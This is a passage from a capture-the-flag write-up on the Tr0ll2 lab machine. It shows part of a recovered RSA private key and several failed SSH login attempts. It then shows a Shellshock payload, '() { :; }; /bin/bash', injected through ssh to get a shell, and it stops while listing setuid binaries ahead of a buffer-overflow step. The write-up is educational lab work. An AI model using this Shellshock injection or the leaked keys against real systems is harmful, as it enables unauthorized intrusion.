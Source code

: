 ```
vKoyNZRw+bqjM0XT+2CR8dS1DwO9au14w+xecLq7NeQzUxzId5tHCosZORoQbvoh
ywLymdDOlq3TOZ+CySD4/wUCgYEAr/ybRHhQro7OVnneSjxNp7qRUn9a3bkWLeSG
th8mjrEwf/b/1yai2YEHn+QKUU5dCbOLOjr2We/Dcm6cue98IP4rHdjVlRS3oN9s
G9cTui0pyvDP7F63Eug4E89PuSziyphyTVcDAZBriFaIlKcMivDv6J6LZTc17sye
q51celUCgYAKE153nmgLIZjw6+FQcGYUl5FGfStUY05sOh8kxwBBGHW4/fC77+NO
vW6CYeE+bA2AQmiIGj5CqlNyecZ08j4Ot/W3IiRlkobhO07p3nj601d+OgTjjgKG
zp8XZNG8Xwnd5K59AVXZeiLe2LGeYbUKGbHyKE3wEVTTEmgaxF4D1g==
-----END RSA PRIVATE KEY-----
```

Breaking into shell? Shock(ing)!
--------------------------------

Sweet, let's use it to log-in via `ssh`. But what username should we use? Let's try ```noob```.

```
root@kali:~/Desktop# ssh noob@172.16.246.135 -i noob 
TRY HARDER LOL!
Connection to 172.16.246.135 closed.
```

What the hell?! The connection is closed straight away. Okay, I know few workarounds for it... Let's try calling different shell at the log-in:

```
root@kali:~/Desktop# ssh noob@172.16.246.135 -i noob -t "/bin/sh"
TRY HARDER LOL!
Connection to 172.16.246.135 closed.
```

Nope. How about starting shell without the 'rc' profile:

```
root@kali:~/Desktop# ssh noob@172.16.246.135 -i noob -t "bash --noprofile"
TRY HARDER LOL!
Connection to 172.16.246.135 closed.
```

Arrrghhh! It's getting annoying. What's other way I can bypass that...? And then it hit me - how could I forget about it (it kept me up at night for much longer than I would've like), ladies and gentleman - SHELLSHOCK!

```
root@kali:~/Desktop# ssh noob@172.16.246.135 -i noob -t "() { :; }; /bin/bash"
noob@Tr0ll2:~$ 
```

Sweeeeeeeet, we're in! :D


Exploiting buffer overflow
--------------------------

After a bit of a poking around we can quickly find an interesting folder with even more interesting files:

```
noob@Tr0ll2:~$ cd /nothing_to_see_here/choose_wisely/
noob@Tr0ll2:/nothing_to_see_here/choose_wisely$ ls
door1  door2  door3
noob@Tr0ll2:/nothing_to_see_here/choose_wisely$ ls -al *
door1:
total 16
drwsr-xr-x 2 root root 4096 Oct  4 22:19 .
drwsr-xr-x 5 root root 4096 Oct  4 22:36 ..
-rwsr-xr-x 1 root root 7271 Oct  4 22:19 r00t

door2:
total 20
drwsr-xr-x 2 root root 4096 Oct  5 21:19 .
drwsr-xr-x 5 root root 4096 Oct  4 22:36 ..
```